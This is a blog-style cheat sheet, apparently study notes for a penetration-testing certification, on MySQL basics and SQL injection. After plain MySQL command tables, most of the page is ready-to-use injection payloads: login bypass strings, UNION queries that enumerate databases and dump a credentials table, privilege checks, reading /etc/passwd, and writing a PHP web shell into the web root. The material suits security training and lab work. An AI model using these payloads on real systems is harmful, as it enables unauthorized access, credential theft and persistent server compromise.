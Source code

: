 ```yaml
---
layout: post
title: "SQL Injection Fundementals"
date: 2025-04-22
categories: CheatSheets/CPTS
order: 13
---
```


## MySQL

| **Command**   | **Description**   |
| --------------|-------------------|
| **General** |
| `mysql -u root -h docker.hackthebox.eu -P 3306 -p<password>` | login to mysql database (there shouldn't be any spaces between '-p' and the password). |
| `SHOW DATABASES` | List available databases |
| `USE users` | Switch to database |
| **Tables** |
| `CREATE TABLE logins (id INT, ...)` | Add a new table |
| `SHOW TABLES` | List available tables in current database |
| `DESCRIBE logins` | Show table properties and columns |
| `INSERT INTO table_name VALUES (value_1,..)` | Add values to table |
| `INSERT INTO table_name(column2, ...) VALUES (column2_value, ..)` | Add values to specific columns in a table |
| `UPDATE table_name SET column1=newvalue1, ... WHERE <condition>` | Update table values |
| **Columns** |
| `SELECT * FROM table_name` | Show all columns in a table |
| `SELECT column1, column2 FROM table_name` | Show specific columns in a table |
| `DROP TABLE logins` | Delete a table |
| `ALTER TABLE logins ADD newColumn INT` | Add new column |
| `ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn` | Rename column |
| `ALTER TABLE logins MODIFY oldColumn DATE` | Change column datatype |
| `ALTER TABLE logins DROP oldColumn` | Delete column |
| **Output** |
| `SELECT * FROM logins ORDER BY column_1` | Sort by column |
| `SELECT * FROM logins ORDER BY column_1 DESC` | Sort by column in descending order |
| `SELECT * FROM logins ORDER BY column_1 DESC, id ASC` | Sort by two-columns |
| `SELECT * FROM logins LIMIT 2` | Only show first two results |
| `SELECT * FROM logins LIMIT 1, 2` | Only show first two results starting from index 2 |
| `SELECT * FROM table_name WHERE <condition>` | List results that meet a condition |
| `SELECT * FROM logins WHERE username LIKE 'admin%'` | List results where the name is similar to a given string |

## MySQL Operator Precedence

* Division (`/`), Multiplication (`*`), and Modulus (`%`)
* Addition (`+`) and Subtraction (`-`)
* Comparison (`=`, `>`, `<`, `<=`, `>=`, `!=`, `LIKE`)
* NOT (`!`)
* AND (`&&`)
* OR (`||`)

---

## SQL Injection

## Auth Bypass

| **Payload**              | **Description**                      |
|--------------------------|--------------------------------------|
| `admin' OR '1'='1`       | Basic auth bypass                    |
| `admin')-- -`            | Basic auth bypass (with SQL comment) |
| **Reference**            | [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass) |

---

## Union Injection

| **Payload**                                                | **Description**                          |
|------------------------------------------------------------|------------------------------------------|
| `' ORDER BY 1-- -`                                         | Detect number of columns via `ORDER BY`  |
| `cn' UNION SELECT 1,2,3-- -`                               | Test UNION injection, discover columns   |
| `cn' UNION SELECT 1,@@version,3,4-- -`                     | Show MySQL version via UNION             |
| `UNION SELECT username,2,3,4 FROM passwords-- -`           | Extract usernames (4‑column UNION)       |

---

## DB Enumeration

| **Payload**                                                                                                                | **Description**                                            |
|----------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------------|
| `SELECT @@version`                                                                                                         | Fingerprint MySQL and return version string                |
| `SELECT SLEEP(5)`                                                                                                          | Fingerprint MySQL via time delay                           |
| `cn' UNION SELECT 1,database(),2,3-- -`                                                                                     | Retrieve current database name                             |
| `cn' UNION SELECT 1,schema_name,3,4 FROM information_schema.schemata-- -`                                                   | List all databases                                         |
| `cn' UNION SELECT 1,table_name,table_schema,4 FROM information_schema.tables WHERE table_schema='dev'-- -`                  | List tables in the `dev` database                          |
| `cn' UNION SELECT 1,column_name,table_name,table_schema FROM information_schema.columns WHERE table_name='credentials'-- -` | List columns in the `credentials` table                    |
| `cn' UNION SELECT 1,username,password,4 FROM dev.credentials-- -`                                                          | Dump all rows from `dev.credentials`                       |

---

## Privileges

| **Payload**                                                                                                                                       | **Description**                                 |
|---------------------------------------------------------------------------------------------------------------------------------------------------|-------------------------------------------------|
| `cn' UNION SELECT 1,user(),3,4-- -`                                                                                                                | Show current MySQL user                        |
| `cn' UNION SELECT 1,super_priv,3,4 FROM mysql.user WHERE user='root'-- -`                                                                          | Check if `root` has SUPER privileges            |
| `cn' UNION SELECT 1,grantee,privilege_type,is_grantable FROM information_schema.user_privileges WHERE user='root'-- -`                           | List all privileges granted to `root`           |
| `cn' UNION SELECT 1,variable_name,variable_value,4 FROM information_schema.global_variables WHERE variable_name='secure_file_priv'-- -`           | Show MySQL’s `secure_file_priv` setting         |

---

## File Injection

| **Payload**                                                                                                                                         | **Description**                      |
|-----------------------------------------------------------------------------------------------------------------------------------------------------|--------------------------------------|
| `cn' UNION SELECT 1,LOAD_FILE('/etc/passwd'),3,4-- -`                                                                                                 | Read the `/etc/passwd` file          |
| `SELECT 'file written successfully!' INTO OUTFILE '/var/www/html/proof.txt'`                                                                         | Write a string into a server‑side file |
| `cn' UNION SELECT '', '<?php system($_REQUEST[0]); ?>', '', '' INTO OUTFILE '/var/www/html/shell.php'-- -`                                            | Drop a PHP web shell into the web root |

---

